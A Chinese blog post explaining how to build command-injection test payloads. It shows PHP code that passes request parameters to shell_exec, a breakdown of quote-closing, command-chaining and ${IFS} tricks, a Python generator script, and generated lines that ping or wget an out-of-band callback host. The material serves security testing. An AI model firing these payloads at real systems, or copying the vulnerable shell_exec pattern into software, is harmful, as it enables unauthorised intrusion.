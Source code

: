  ---
layout: post
title: 关于命令注入的测试payload生成
categories: 命令注入
tag: 命令注入
---

 # 关于命令注入的测试payload生成

- Author：jax777


 ## 示例

 ```
 <?php
    $site = $_GET["site"];
    $command = 'ping '.$site;
    $out = shell_exec($command)
    echo $out;
?>
 ```
 以上代码存在明显命令注入漏洞

简单构造 `site=xx.com;attack;`  即可达到执行任意attack命令的目的

再看一个近期抓到的实例


```
<!--?php
 //发送命令
 $in_url = $_GET["inurl"];
 $data_base = $_GET["database"];
 #echo $data_base;
 #$data_base = urldecode($data_base);
 $port = $_GET["port"];
 $circle_num = $_GET["circle_num"]
 $charset = $_GET["charsets"];
 #echo $data_base;
 $exec_path = dirname(__FILE__);
 $out = shell_exec("cd " .$exec_path. "; sh fgrep_union.sh \"" .$in_url."\" \"".$data_base."\" \"".$port."\" \"".$circle_num."\" \"".$charset."\" 2>/tmp/a.err"); #$out = ("cd " .$exec_path. "; sh fgrep_union.sh \"" .$in_url."\" \"".$data_base."\" \"".$port."\" \"".$circle_num."\" \"".$charset."\" 2>/tmp/a.err");
 echo $out;
 ?>
```

这个点显然是存在命令注入的，可以明显的看出上一个的简单payload就不再适用了。
可以看出这里字符拼接时前后都用双引号包裹了，要实现注入首先要前后闭合。
例如下面这样的payload `inurl=xxx";command;"xxx`


## 一般化

- 思考一下上述payload由哪些部分组成

|| | |
|--------------------|
|前缀| PREFIX | xxx|
|闭合|close|"|
|命令拼接|cmd_char|;|
|执行语句|COMMAND|attack|
|命令拼接|cmd_char|;|
|闭合|close|"|
|后缀| SUFFIX  | xxx|

上述各个部分就组成了一个基本测试payload。
这样看来第一个payload就是上面组成的简化，如不需要闭合，以及后缀可以看作空字符。

这里还缺了一个最重要的部分，要执行的命令command。

- 考虑command组成

  测试时为了通用性，测出无回显的命令注入，一般会将结果通过第三方信道带回查看，如通过dns或http请求带回。（请求cloudeye）
  例如

  `wget xxx.myeye`
  `ping p.myeye`

  不难看出可以如下区分

| | ||
|--------------------|
|命令| cmd | wget|
|分隔符| cmd_sep | 空格|
|参数| my_cloudeye | xxx.myeye|


下面要做的就是给各个组成部分填空

- 填空

  - 前缀后缀 明显是一个字符串，有时还可为空字符。

  - 闭合 目的是为了保证语法正确，可能取值有单引号 双引号 以及 空字符

  - 命令拼接 考虑shell的语法有如下几种 | ; & 反引号  换行符 $()

  - 命令cmd 基本的产生http或dns请求的命令 如 wget curl ping dig

  - 分隔符 cmd_sep  常见的空格 tab键 以及${IFS}  （利用环境变量获得分隔符）

  - 参数 my_cloudeye  自己的cloudeye 标记


  |组成| 可用值 |
  |--------------------|
  | PREFIX | xxx|
  |close|" ' 空字符|
  |cmd_char|; 管道符  & 反引号  换行符 $() |
  |PREFIX | xxx|
  | cmd | wget ping curl dig|
  |cmd_sep | 空格 tab ${IFS}|
  | my_cloudeye | xxx.myeye|


 ## 生成脚本

 下面给出一个payload生成的脚本
```
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
# __author__ jax777

PREFIX = 'da.gg.com'
SUFFIX = 'da.gg.com'
cmd_sep = [     
	'${IFS}',
	'	',
	' '
]


cmd_char = [
#{CMDCHAR}
	['`','`'],
	['$(',')'],
	[';',';'],
	['|','|'],
	['&','&'],
	['%0a','%0a'],


]

close = [
#{CLOSE}
	"\'",
	'"',
	''
]

cmd = [
	'ping',
	'dig',
	'wget'
]


payload = []
payload.append('{COMMAND}'+'{CMDSEP}'+'{my_cloudeye}')
for b in cmd_char:
	payload.append(b[0]+'{COMMAND}'+'{CMDSEP}'+'{my_cloudeye}'+b[1])
	for c in close:
		payload.append(PREFIX+c+b[0]+'{COMMAND}'+'{CMDSEP}'+'{my_cloudeye}'+b[1]+c+SUFFIX)


i = 1
for e in cmd:
	for a in cmd_sep:
		if '${IFS}' == a and 'ping' in e:
				pass
		else:
			for _ in payload:
				_=_.replace('{COMMAND}', e)
				_=_.replace('{CMDSEP}', a)
				_=_.replace('{my_cloudeye}',str(i)+".{my_cloudeye}")
				i = i + 1
				print _


```


 - 运行结果如下  发送payload时将{my_cloudeye}替换成自己的接收地址即可

 ```
 ping	1.{my_cloudeye}
`ping	2.{my_cloudeye}`
da.gg.com'`ping	3.{my_cloudeye}`'da.gg.com
da.gg.com"`ping	4.{my_cloudeye}`"da.gg.com
da.gg.com`ping	5.{my_cloudeye}`da.gg.com
$(ping	6.{my_cloudeye})
da.gg.com'$(ping	7.{my_cloudeye})'da.gg.com
da.gg.com"$(ping	8.{my_cloudeye})"da.gg.com
da.gg.com$(ping	9.{my_cloudeye})da.gg.com
......
 ```

自此一个完整的命令注入测试payload就诞生了。


00，请多多指教。
